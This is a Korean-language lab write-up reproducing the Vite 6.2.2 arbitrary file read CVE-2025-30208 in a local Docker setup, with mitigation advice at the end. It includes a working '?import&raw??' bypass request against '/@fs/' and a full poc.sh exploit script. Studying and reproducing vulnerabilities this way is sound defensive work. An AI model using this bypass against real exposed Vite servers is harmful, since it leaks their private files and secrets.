


# Vite CVE-2025-30208 취약점 재현

## 1. 취약점 요약

이번 실습에서는 Vite 개발 서버에서 발생하는 임의 파일 읽기 취약점인 `CVE-2025-30208`을 재현하였다.

Vite에는 파일 시스템의 파일을 불러오는 `@fs` 기능이 있다. 원래 Vite에서 허용한 경로 밖의 파일을 요청하면 접근이 차단되어야 하지만, 취약한 버전에서는 요청 주소 뒤에 `?raw??` 또는 `?import&raw??`를 붙이면 접근 제한을 우회할 수 있다.
(이는 Vite 내부의 파일 경로 검증 정규식(Regex)이 특수 쿼리 접미사(?raw??)를 만났을 때, 허용 목록(Allow-list) 필터링을 우회해 버리는 로직 결함으로 인해 발생한다.)

이 취약점이 악용되면 서버 내부의 설정 파일이나 소스코드처럼 외부에 공개되면 안 되는 파일 내용이 노출될 수 있다.

* CVE 번호: CVE-2025-30208
* 대상 프로그램: Vite
* 실습 버전: Vite 6.2.2
* 수정 버전: Vite 6.2.3 이상
* 취약점 종류: 임의 파일 읽기
* 인증 필요 여부: 없음
* 주요 영향: 서버 내부 파일 내용 노출

---

## 2. 환경 구성

실습 환경은 Docker Compose를 이용해 구성하였다.

외부에서 이미 만들어진 취약 이미지를 그대로 사용하지 않고, 공식 Node.js 이미지를 기반으로 `Dockerfile`에서 Vite 6.2.2를 직접 설치하도록 만들었다.

* 호스트 운영체제: macOS
* Docker 환경: Docker Desktop
* 베이스 이미지: `node:22.14.0-slim`
* 취약 버전: Vite 6.2.2
* 접속 주소: `http://127.0.0.1:5173`
* 사용 도구: Docker Compose, curl, Bash

폴더 구성은 다음과 같다.

```text
Vite/
└── CVE-2025-30208/
    ├── assets/
    │   ├── 1.png
    │   └── 2.png
    ├── .dockerignore
    ├── Dockerfile
    ├── docker-compose.yml
    ├── index.html
    ├── package.json
    ├── package-lock.json
    ├── poc.sh
    └── README.md
```

`package.json`에서는 Vite가 자동으로 최신 버전으로 올라가지 않도록 버전을 정확하게 지정하였다.

```json
"devDependencies": {
  "vite": "6.2.2"
}
```

Docker 컨테이너 안에는 취약점 확인을 위한 실습용 파일을 생성하였다.

```text
파일 위치: /tmp/whs-secret.txt
파일 내용: WHS_CVE_2025_30208_DEMO
```

실제 시스템의 중요 파일을 사용하지 않고, 직접 만든 실습용 파일이 외부에서 읽히는지만 확인하였다.

---

## 3. 취약 조건

CVE-2025-30208이 발생하려면 다음 조건이 필요하다.

1. 취약한 Vite 버전을 사용하고 있어야 한다.
2. Vite 개발 서버가 `--host` 또는 `server.host` 설정으로 외부 요청을 받을 수 있어야 한다.
3. 공격자가 Vite 개발 서버에 HTTP 요청을 보낼 수 있어야 한다.
4. Vite 프로세스가 대상 파일을 읽을 수 있는 권한을 가지고 있어야 한다. (본 실습 환경은 보안 실무 기준을 고려하여, 컨테이너 내부 프로세스가 root가 아닌 일반 사용자 권한으로 실행되더라도 /tmp/whs-secret.txt 파일을 읽을 수 있도록 권한(644)을 최소화하여 설정하였다.)

이번 실습에서는 Docker 컨테이너 내부의 Vite 서버가 요청을 받을 수 있도록 다음 옵션을 사용하였다.

```text
--host 0.0.0.0 --port 5173 --strictPort
```

다만 취약한 서버가 외부 인터넷에 공개되지 않도록 `docker-compose.yml`에서는 포트를 `127.0.0.1`에만 연결하였다.

```yaml
ports:
  - "127.0.0.1:5173:5173"
```

따라서 이번 실습 환경은 실습을 진행한 컴퓨터 내부에서만 접근할 수 있다.

---

## 4. 실행 방법

먼저 저장소를 내려받은 뒤 실습 폴더로 이동한다.

```bash
cd Vite/CVE-2025-30208
```

Docker 이미지를 빌드하고 컨테이너를 실행한다.

```bash
docker compose up --build -d
```

각 옵션의 의미는 다음과 같다.

* `docker compose`: 현재 폴더의 `docker-compose.yml`을 사용한다.
* `up`: 컨테이너를 생성하고 실행한다.
* `--build`: 실행하기 전에 Dockerfile을 이용해 이미지를 빌드한다.
* `-d`: 컨테이너를 백그라운드에서 실행한다.

컨테이너의 실행 상태는 다음 명령으로 확인할 수 있다.

```bash
docker compose ps
```

컨테이너 상태가 `Up`으로 표시되고 `127.0.0.1:5173` 포트가 연결되어 있으면 정상적으로 실행된 것이다.



---

## 5. 재현 절차

### 5.1 정상 요청

먼저 우회 문자열을 사용하지 않고 실습용 파일을 요청하였다.

```bash
curl -i "http://127.0.0.1:5173/@fs/tmp/whs-secret.txt"
```

실행 결과 서버에서 `403 Forbidden`을 반환하였다.

```text
HTTP 상태 코드: 403
```

이는 `/tmp/whs-secret.txt`가 Vite에서 허용한 경로 밖에 있기 때문에 정상적으로 접근이 차단된 결과이다.

### 5.2 우회 요청

같은 주소 뒤에 `?import&raw??`를 추가하여 다시 요청하였다.

```bash
curl "http://127.0.0.1:5173/@fs/tmp/whs-secret.txt?import&raw??"
```

이번에는 원래 차단되어야 할 실습용 파일의 내용이 응답에 포함되었다.

```text
export default "WHS_CVE_2025_30208_DEMO\n"
```

정상 요청과 요청한 파일은 같지만, URL 뒤에 특수한 쿼리 문자열을 붙였을 때 접근 제한이 우회되는 것을 확인하였다.

---

## 6. PoC 코드

정상 요청과 우회 요청을 한 번에 비교할 수 있도록 `poc.sh` 파일을 작성하였다.

```bash
#!/usr/bin/env bash

set -euo pipefail

BASE_URL="${1:-http://127.0.0.1:5173}"
TARGET_PATH="/@fs/tmp/whs-secret.txt"

echo "[1/3] Vite 서버 연결 확인"

COUNT=0

until curl -fsS "${BASE_URL}/" >/dev/null 2>&1; do
  COUNT=$((COUNT + 1))

  if [ "${COUNT}" -ge 30 ]; then
    echo "[-] Vite 서버에 연결할 수 없습니다."
    echo "[-] docker compose logs 명령으로 확인하세요."
    exit 1
  fi

  sleep 1
done

echo "[+] Vite 서버가 실행 중입니다."
echo

echo "[2/3] 우회 문자열이 없는 정상 요청"

NORMAL_STATUS="$(
  curl \
    -sS \
    -o /tmp/cve-2025-30208-normal.txt \
    -w "%{http_code}" \
    "${BASE_URL}${TARGET_PATH}"
)"

echo "HTTP 상태 코드: ${NORMAL_STATUS}"

if [ "${NORMAL_STATUS}" != "403" ]; then
  echo "[-] 예상한 403 응답이 아닙니다."
  cat /tmp/cve-2025-30208-normal.txt || true
  exit 1
fi

echo "[+] 정상 요청은 403으로 차단되었습니다."
echo

echo "[3/3] ?import&raw??를 추가한 우회 요청"

EXPLOIT_RESPONSE="$(
  curl -sS "${BASE_URL}${TARGET_PATH}?import&raw??"
)"

printf '%s\n' "${EXPLOIT_RESPONSE}" | sed -n '1p'

if printf '%s' "${EXPLOIT_RESPONSE}" |
  grep -q "WHS_CVE_2025_30208_DEMO"; then

  echo
  echo "[+] CVE-2025-30208 재현 성공"
  echo "[+] 허용 범위 밖의 실습용 파일 내용이 반환되었습니다."
else
  echo
  echo "[-] 취약점이 재현되지 않았습니다."
  exit 1
fi
```

처음 실행할 때는 다음 명령으로 실행 권한을 추가한다.

```bash
chmod +x poc.sh
```

* `chmod`: 파일 권한을 변경하는 명령어이다.
* `+x`: 실행 권한을 추가한다.
* `poc.sh`: 권한을 변경할 대상 파일이다.

이후 다음 명령으로 PoC를 실행한다.

```bash
./poc.sh
```

`./`는 현재 폴더에 있는 파일을 실행한다는 의미이다.

PoC는 다음 순서로 동작한다.

1. Vite 서버에 연결할 수 있는지 확인한다.
2. 우회 문자열이 없는 요청을 보내고 `403` 응답을 확인한다.
3. `?import&raw??`가 포함된 요청을 전송한다.
4. 응답에 `WHS_CVE_2025_30208_DEMO`가 포함되어 있는지 검사한다.
5. 파일 내용이 확인되면 재현 성공 메시지를 출력한다.

---

## 7. 실행 결과

PoC를 실행한 결과 일반 요청에서는 다음과 같이 접근이 차단되었다.

```text
[2/3] 우회 문자열이 없는 정상 요청
HTTP 상태 코드: 403
[+] 정상 요청은 403으로 차단되었습니다.
```

하지만 `?import&raw??`를 붙인 요청에서는 컨테이너 내부에 생성한 실습용 파일의 내용이 반환되었다.

```text
[3/3] ?import&raw??를 추가한 우회 요청
export default "WHS_CVE_2025_30208_DEMO\n"

[+] CVE-2025-30208 재현 성공
[+] 허용 범위 밖의 실습용 파일 내용이 반환되었습니다.
```



이를 통해 Vite 6.2.2 환경에서 파일 접근 제한을 우회하여 허용 범위 밖의 파일을 읽을 수 있음을 확인하였다.

---

## 8. 재현성 검증

처음 실행한 Docker 환경이나 캐시에 의존한 결과가 아닌지 확인하기 위해 기존 컨테이너를 삭제한 뒤 다시 빌드하였다.

기존 환경을 제거하였다.

```bash
docker compose down -v --remove-orphans
```

* `down`: Compose로 만든 컨테이너와 네트워크를 종료하고 제거한다.
* `-v`: Compose에서 사용하는 볼륨도 함께 제거한다.
* `--remove-orphans`: 현재 Compose 파일에 없는 이전 컨테이너도 정리한다.

이전 빌드 캐시를 사용하지 않고 이미지를 다시 만들었다.

```bash
docker compose build --no-cache
```

`--no-cache`는 이전 Docker 빌드 결과를 재사용하지 않고 Dockerfile의 모든 단계를 처음부터 실행한다는 의미이다.

컨테이너를 다시 실행하였다.

```bash
docker compose up -d
```

마지막으로 PoC를 다시 실행하였다.

```bash
./poc.sh
```

새로 빌드한 환경에서도 일반 요청은 `403`으로 차단되었고, 우회 요청에서는 동일하게 실습용 파일의 내용이 반환되었다.

따라서 기존에 실행하던 컨테이너나 내 컴퓨터의 별도 설정에 의존하지 않고, 제출한 파일만으로 취약점을 재현할 수 있음을 확인하였다.

---

## 9. 대응 방안

가장 확실한 대응 방법은 Vite를 취약점이 수정된 버전으로 업데이트하는 것이다.

* Vite 6.2 계열은 6.2.3 이상으로 업데이트한다.
* Vite 개발 서버를 외부 네트워크에 공개하지 않는다.
* 필요하지 않다면 `--host 0.0.0.0` 설정을 사용하지 않는다.
* 외부 접속이 필요한 경우 방화벽이나 접근 제어를 적용한다.
* 개발 서버가 중요 파일에 접근할 수 없도록 파일 권한을 최소화한다.
* 환경 변수, 인증 정보, 비밀 키 등의 민감한 정보를 개발 서버와 같은 환경에 두지 않는다.
* 운영 환경에서는 Vite 개발 서버를 직접 사용하지 않고, 빌드된 정적 파일을 별도의 웹 서버로 제공한다.

---

## 10. 환경 종료

실습이 끝난 뒤에는 다음 명령으로 컨테이너와 네트워크를 제거한다.

```bash
docker compose down -v --remove-orphans
```


---

## 11. 정리

이번 실습에서는 Vite 6.2.2 환경을 Dockerfile과 Docker Compose로 직접 구성하고 CVE-2025-30208을 재현하였다.

처음에는 정상 요청과 우회 요청의 차이가 URL 뒤에 붙는 짧은 문자열뿐이라 이것이 실제 취약점으로 이어지는 과정이 잘 이해되지 않았다. 직접 실행해 보니 정상 요청은 `403`으로 차단됐지만, 우회 문자열을 추가한 요청에서는 같은 파일의 내용이 반환되는 것을 확인할 수 있었다.

또한 취약 환경을 한 번 실행하는 것으로 끝내지 않고, 기존 컨테이너를 제거한 뒤 캐시 없이 다시 빌드하여 동일한 결과가 나오는지도 확인하였다.

이번 실습을 통해 취약점을 재현할 때는 단순히 PoC 명령어를 실행하는 것뿐만 아니라 취약 버전 고정, 격리된 환경 구성, 정상 요청과 공격 요청 비교, 깨끗한 환경에서의 재검증도 중요하다는 것을 알게 되었다.

---